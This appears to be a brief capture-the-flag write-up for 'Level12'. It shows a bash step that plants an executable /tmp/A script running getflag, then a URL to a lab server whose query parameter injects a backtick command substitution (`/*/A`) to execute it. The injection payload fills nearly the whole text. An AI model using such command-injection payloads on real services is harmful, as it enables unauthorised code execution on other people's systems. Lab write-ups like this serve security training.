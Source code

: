 
# Level12

```bash
echo "getflag > /tmp/a" > /tmp/A
chmod +x /tmp/A
```

192.168.1.77:4646/?x=`/*/A`
